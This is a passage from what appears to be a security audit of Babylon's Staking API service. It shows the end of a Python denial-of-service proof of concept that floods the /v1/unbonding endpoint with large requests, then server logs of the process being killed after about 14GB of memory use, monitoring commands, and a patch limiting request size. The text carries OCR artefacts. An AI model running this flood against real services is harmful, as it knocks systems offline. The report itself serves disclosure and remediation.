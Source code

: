   rs = [grequests.post(url, json = post_data) for i in range(10)] 

  grequests.map(rs) 

  Finally, start the script: 

  python3 exploit-dos-staking-api-service.py 

- Results: Once the attack is started, the Staking API server will handle multiple large requests. The     following result is printed on the Staking API server command line: 


{\"level\":\"debug\",\"path\":\"/v1/unbonding\",\"traceId\":\"e2fa488b-bebd-4bbe-a8cc-93685ab63ee9\",\"time\":\"2024-0 (^) ⌋ 6-03T16:13:32+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/unbonding\",\"traceId\":\"abdd26ae-8b0f-4353-9d2a-4fab0f3829fd\",\"time\":\"2024-0 (^) ⌋ 6-03T16:13:32+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/unbonding\",\"traceId\":\"e264a6d5-9cf6-4c6f-9c11-25d7a1a30a4f\",\"time\":\"2024-0 (^) ⌋ 6-03T16:13:32+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"debug\",\"path\":\"/v1/unbonding\",\"traceId\":\"6786dcd7-7fc8-4e4a-a48a-9d46efe0e5c4\",\"time\":\"2024-0 (^) ⌋ 6-03T16:13:32+02:00\",\"message\":\"request received\"} ,→ ,→ {\"level\":\"info\",\"path\":\"/v1/unbonding\",\"traceId\":\"d325ff48-cf8f-422c-baf3-0fec217bbf75\",\"tracingInfo\":{ (^) ⌋ \"SpanDetails\":null},\"requestDuration\":3627,\"time\":\"2024-06-03T16:13:36+02:00\",\"message\":\"Request completed\"} ,→ ,→ {\"level\":\"info\",\"path\":\"/v1/unbonding\",\"traceId\":\"c85494f0-315e-4c2d-87b3-f0a6add478f0\",\"tracingInfo\":{ (^) ⌋ \"SpanDetails\":null},\"requestDuration\":3651,\"time\":\"2024-06-03T16:13:36+02:00\",\"message\":\"Request completed\"} ,→ ,→ {\"level\":\"info\",\"path\":\"/v1/unbonding\",\"traceId\":\"e264a6d5-9cf6-4c6f-9c11-25d7a1a30a4f\",\"tracingInfo\":{ (^) ⌋ \"SpanDetails\":null},\"requestDuration\":3650,\"time\":\"2024-06-03T16:13:36+02:00\",\"message\":\"Request completed\"} ,→ ,→ {\"level\":\"info\",\"path\":\"/v1/unbonding\",\"traceId\":\"b07748f9-0a02-4a91-b7a0-aea06f2bb859\",\"tracingInfo\":{ (^) ⌋ \"SpanDetails\":null},\"requestDuration\":3884,\"time\":\"2024-06-03T16:13:36+02:00\",\"message\":\"Request completed\"} ,→ ,→ signal: killed The process has been killed by the operating system, as its memory consumption was too high. 

- Tracking process memory: To better understand the crash, it is possible to follow memory consump-     tion of the target process. Install the following python dependencies in a local environment:        pip3 install psrecord matplotlib tk 

  psrecord allows attaching to existing process to monitor their memory consumption and create a graph of its consumption. After running the Staking API service but before starting the attack, run the following command that will follow and create a graph (PNG image) of the target process's memory consumption: psrecord $(pgrep main) --interval 1 --plot memory-consumption.png 

_Note: the process_ main _is used, because the Makefile start the command_ go run _which will execute the Staking API server with a binary named_ main _in path_ /tmp/go-buildXXXXXXX/YYY/exe/main_._ 

During this proof of concept creation, the following graph was obtained. It shows a 14_000 MB consumption of memory, which represents 14GB, before getting killed. 


**Recommendation:** Use the RequestSize middleware from the Chi dependency in the Staking API server. This middleware allows setting the maximum size of a request. 

The following patch implements the integration of this middleware for Staking API server. Please note that in this patch, the request size is limited to 524288 bytes. This value is arbitrary and may not fit Babylon's needs. diff --git a/internal/api/server.go b/internal/api/server.go index a282b67..b525a5e 100644 --a/internal/api/server.go +++ b/internal/api/server.go @@ -10,6 +10,7 @@ import ( \"github.com/babylonchain/staking-api-service/internal/config\" \"github.com/babylonchain/staking-api-service/internal/services\" \"github.com/go-chi/chi\" + \"github.com/go-chi/chi/v5/middleware\" \"github.com/rs/zerolog\" \"github.com/rs/zerolog/log\" ) @@ -33,6 +34,7 @@ func New( r.Use(middlewares.CorsMiddleware(cfg)) r.Use(middlewares.TracingMiddleware) r.Use(middlewares.LoggingMiddleware) + r.Use(middleware.RequestSize(524288)) 
